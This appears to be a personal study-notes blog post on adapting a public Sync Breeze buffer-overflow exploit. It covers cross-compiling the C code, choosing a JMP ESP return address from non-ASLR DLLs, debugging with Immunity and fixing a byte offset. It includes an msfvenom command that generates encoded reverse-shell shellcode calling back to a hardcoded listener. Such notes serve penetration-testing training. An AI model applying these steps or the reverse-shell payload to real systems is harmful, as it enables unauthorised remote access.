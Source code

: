 ```yaml
---
layout: post
title: Examining Exploit Code
titledate: 09/08/23
tags: ["infosec","offsec", "exploit", "C"]
---
```


#### compiling c on linux

    $ sudo apt install mingw-w64
    i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe

when compiling we may run into missing header information 

    $ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

#### ip and port

the target or source ip address and port numbers may be hardcoded

#### chaning return address

  we may need to change the return address of the exploit depending on our target environment and what dlls are available to it

  there are a few methods to achieve this

  1. if possible recreate the target environment locally and use a debugger to determine this address - File > Attach to process > View > Executable modules and see what  dll modules are present
  2. search for public exploits with a similar setup - like a return address for a JMP ESP on win 10
  3. search for non-ASLR marked dlls

### Note: If we have access to the machine we can copy the DLLs we want to utilize over for priv escalation

#### shellcode 

since this is a static exploit - we will most likely need to regenerate shellcode for our specific use case / target environment
for example if we want a reverse shell for an x86 platform system with no bad characters we can use

    $ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

#### debugging our exploit

after recompiling our exploit we can open our debugger with the application running press ctr+G and follow the JMP ESP address at our return address 0x10090c83, then we can set a breakpoint with F2 and then continue execution by pressing F9


![immun_1.png](../images/exploitation/immun_1.png)

#### execute exploit with wine

because we are running an executable we can use wine to run the exploit

    sudo wine syncbreeze_exploit.exe

  When we run the exploit we did not hit our breakpoint but instead hit a crash with the value of the EIP register pointing to 0x9010090c

#### fixing the code

the eip address has an extra 90 or nop in it so we are off 1 byte and need to remove a nop from the shellcode